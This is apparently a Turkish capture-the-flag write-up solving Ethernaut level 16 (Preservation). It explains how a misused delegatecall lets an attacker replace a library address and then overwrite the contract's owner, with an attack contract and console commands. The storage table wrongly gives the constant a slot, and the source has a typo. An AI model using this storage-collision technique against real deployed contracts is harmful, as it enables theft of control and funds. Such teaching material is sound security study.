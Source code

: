 # ETHERNAUT SORU 16: PRESERVATION

>This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.
>
>The goal of this level is for you to claim ownership of the instance you are given.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {
	// public library contracts
	address public timeZone1Library;
	address public timeZone2Library;
	address public owner;
	uint256 storedTime;
	// Sets the function signature for delegatecall
	bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));
	constructor(address _timeZone1LibraryAddress, address_ timeZone2LibraryAddress) {
	    timeZone1Library = _timeZone1LibraryAddress;
	    timeZone2Library = _timeZone2LibraryAddress;
	    owner = msg.sender;
	}

	// set the time for timezone 1
	function setFirstTime(uint256 _timeStamp) public {
	    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
	}

	// set the time for timezone 2
	function setSecondTime(uint256 _timeStamp) public {
	    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
	}
}

// Simple library contract to set the time
contract LibraryContract {
    // stores a timestamp
    uint256 storedTime;
    function setTime(uint256 _time) public {
        storedTime = _time;
    }
}
```

Bu sorunun çözümünde `delegatecall` fonksiyonunun yanlış bir şekilde uygulanmış olmasından yararlanılacaktır. `delegatecall`, `call` fonksiyonu gibi bir kontraktın başka bir kontrakttaki komutları çağırmasına yardımcı olur. Bu iki fonksiyonun arasındaki fark ise `delegatecall` gerçekleştirilirken çağrılan değil çağıran kontraktın hafızasının kullanılmasıdır.

Soruda kullanılan `delegatecall`, `Preservation` kontraktındaki `storedTime` değişkenini `LibraryContract` aracılığıyla değiştirmek için kullanılmıştır. Ancak `delegatecall` bunu doğru bir şekilde yerine getirmemektedir. Çünkü bu çağrı gerçekleştirilirken değişkenlere isimlerine göre değil kontraktın depolamasında konuma göre erişilir.

Kontraktlardaki depolama aşadaki gibidir.

| -- | Preservation | LibraryContract |
| :---: | :---: | :---: | 
| #0 | ```address public timeZone1Library``` | ```uint256 storedTime``` | 
| #1 | ```address public timeZone2Library``` | --- |
| #2 | ```address public owner``` | --- |
| #3 | ```uint256 storedTime``` | --- |
| #4 | ```bytes4 constant setTimeSignature``` | --- |

Değişkenlerin her iki kontraktaki hanelerine bakıldığı zaman `LibraryContract` üzerinde yer alan `storedTime` değişkeninin `Preservation` kontraktı üzerinde `storedTime` değil `timeZone1Library` ile eşleştiği görülür. Bu yüzden `Preservation` kontraktının `setFirstTime` veya `setSecondTime` fonksiyonları çağrılarak `timeZone1Library` yerine yalancı bir kontrakt şu şekilde yerleştirilebilir:

```javascript
> await contract.setFirstTime(fake_contract_address)
```

Bu saldırıda kullanılan kontrakt aşağıdaki gibidir.

```solidity
contract attack {
	address public add0;
	address public add1;
	address public add2;
	
	function setTime(uint256 _time) public {
		add2=address(0); // kendi adresiniz
	}
}
```

Bu kontraktın depolaması `Preservation` ile kıyaslandığı zaman `owner` ile `add2` değişkenlerinin eşleştiği görülebilir.

| -- | Preservation | attack |
| :---: | :---: | :---: | 
| #0 | ```address public timeZone1Library``` | ```address public add0``` | 
| #1 | ```address public timeZone2Library``` | ```address public add1``` |
| #2 | ```address public owner``` | ```address public add2``` |
| #3 | ```uint256 storedTime``` | --- |
| #4 | ```bytes4 constant setTimeSignature``` | --- |

Bu yüzden `setFirstTime` komutunu tekrardan çalıştırmak soruyu çözecektir.

```javascript
> await contract.setFirstTime(0)
```